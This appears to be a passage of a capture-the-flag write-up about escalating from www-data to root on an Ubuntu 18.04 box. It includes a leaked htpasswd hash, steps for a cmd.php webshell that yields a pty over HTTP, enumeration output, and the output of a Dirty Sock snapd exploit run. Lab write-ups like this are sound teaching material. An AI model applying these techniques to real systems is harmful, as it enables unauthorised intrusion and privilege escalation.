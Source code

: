 I found that the `at` command could be a privesc vector but `www-data` can't use it

`cat /etc/apache2/htpasswd` contains the credentials for the business page in the dev and main page: `robyn:$apr1$tMFlj08b$5VCOhI2see0L0WRU8Mn.b.`

### Shell from HTTP

So i got and idea and looks like im not the first with this problem. Looks like the shells are not comming back because some kind of firewall (more about this at the end) so i will need to use the webshell to spawn a full `pty`.

- First i will use the RCE i got to upload or generate a `cmd.php` page that will work with `GET` requests
- I will use the `tty-from-php-python.py` program. I got it from [here](https://s4vitar.github.io/ttyoverhttp/#) and modified some parts. I know is a spanish site but im spanish, just go to the end of the article que check the code.
- Once the program is executed first run: `script /dev/null -c bash` to get a pty (Thanks god)


### Enumerate, enumerate...

I mainly used `linpeas.sh` for this along side some manual enumeration. Here i wrote some of the stuff that had promising versions to search for exploits:

```
Distributor ID: Ubuntu
Description:    Ubuntu 18.04.5 LTS
Release:        18.04
Codename:       bionic

Sudo version 1.8.21p2
Linux kernel 4.15.0-140-generic
ldd (Ubuntu GLIBC 2.27-3ubuntu1.4) 2.27

snap    2.32.5+18.04
snapd   2.32.5+18.04 <---- https://www.exploit-db.com/exploits/46362
```
The snapd version ended up being the key, it was vulnerable to an exploit called Dirty Sock. Using my php `pty` thing i executed the exploit and...

```
      ___  _ ____ ___ _   _     ____ ____ ____ _  _ 
      |  \ | |__/  |   \_/      [__  |  | |    |_/  
      |__/ | |  \  |    |   ___ ___] |__| |___ | \_ 
                       (version 2)

//=========[]==========================================\\
|| R&D     || initstring (@init_string)                ||
|| Source  || https://github.com/initstring/dirty_sock ||
|| Details || https://initblog.com/2019/dirty-sock     ||
\\=========[]==========================================//


[+] Slipped dirty sock on random socket file: /tmp/lznnxqwpco;uid=0;
[+] Binding to socket file...
[+] Connecting to snapd API...
[+] Deleting trojan snap (and sleeping 5 seconds)...
[+] Deleting trojan snap (and sleeping 5 seconds)...
[+] Installing the trojan snap (and sleeping 8 seconds)...
[+] Installing the trojan snap (and sleeping 8 seconds)...
[+] Deleting trojan snap (and sleeping 5 seconds)...
[+] Deleting trojan snap (and sleeping 5 seconds)...



********************
Success! You can now `su` to the following account and use sudo:
```